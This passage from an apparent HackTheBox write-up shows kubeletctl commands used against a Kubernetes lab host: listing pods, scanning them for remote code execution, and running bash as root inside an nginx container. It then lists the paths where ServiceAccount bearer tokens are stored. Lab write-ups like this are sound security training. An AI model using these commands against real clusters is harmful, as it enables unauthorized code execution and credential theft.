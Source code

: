 My inquiry extended to running pods, revealing their attributes in JSON format:

```bash
kubeletctl runningpods -s 10.10.11.133
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/32a74fd6-02f5-4437-bf53-3d57156f09f9)

Employing a targeted JSON query, I distilled the results to essential details:

```bash
kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/385310aa-d601-4a2d-99b7-252a596ffc94)

Diving deeper, I leveraged kubeletctl to scrutinize the pods for Remote Code Execution (RCE) vulnerabilities:

```bash
kubeletctl scan rce --server 10.10.11.133
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/ea7e462c-c5bc-4637-9f86-370c5c9e34ff)

My analysis highlighted the susceptibility of "nginx" and "kube-proxy-6vj5n."

Drawing inspiration from Hacktrickz and armed with the insights from kubeletctl, I capitalized on the RCE vulnerability to attain root-level access:

```bash
kubeletctl exec /bin/bash -p nginx -c nginx -s 10.10.11.133 #used the vulnerable pod & container as "nginx"
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/ec91dcff-ba59-46cb-bcfe-e2d276676e5a)

Seizing control as the root user, I successfully retrieved the user flag. (pwn3d! 🙂)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Docker Escape:

With the user flag secured and root shell achieved, I continued my journey by manually exploring the environment and discovered that I was operating within a Dockerized setup.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f86b90e8-925d-4012-8330-24957f0e8791)

Delving into deeper manual enumeration, I deduced that I was within a Docker environment. This realization prompted me to research further and led me to the fascinating world of ServiceAccount tokens within Kubernetes.

Referring to [HackTrickz](https://web.archive.org/web/20220705044322/https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/kubernetes-enumeration), I learned about ServiceAccount tokens, which are used to provide identities to processes running within pods. Every service account has a secret associated with it, containing a JSON Web Token (JWT) known as a bearer token.

I identified three locations where these ServiceAccount secrets might be stored:

```
- /run/secrets/kubernetes.io/serviceaccount
- /var/run/secrets/kubernetes.io/serviceaccount
- /secrets/kubernetes.io/serviceaccount
```
I found three crucial files inside this directory: "/run/secrets/kubernetes.io/serviceaccount"

